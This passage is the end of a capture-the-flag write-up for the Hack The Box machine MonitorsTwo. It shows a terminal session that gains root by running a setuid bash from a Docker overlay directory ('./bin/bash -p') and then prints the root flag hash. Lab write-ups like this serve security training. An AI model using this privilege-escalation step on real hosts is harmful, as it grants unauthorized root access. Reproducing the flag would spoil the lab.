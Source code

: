 <br>

### Root.txt

```
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p

bash-5.1# ls
bin  boot  dev	entrypoint.sh  etc  home  lib  lib64  media  mnt  opt  proc  root  run	sbin  srv  sys	tmp  usr  var

bash-5.1# ls /root
cacti  root.txt

bash-5.1# cat /root/root.txt
d390b144fe762dc2620a1b985033d3a8
```

That's how I pwned MonitorsTwo.

<br>

### Achievement:
https://www.hackthebox.com/achievement/machine/743510/539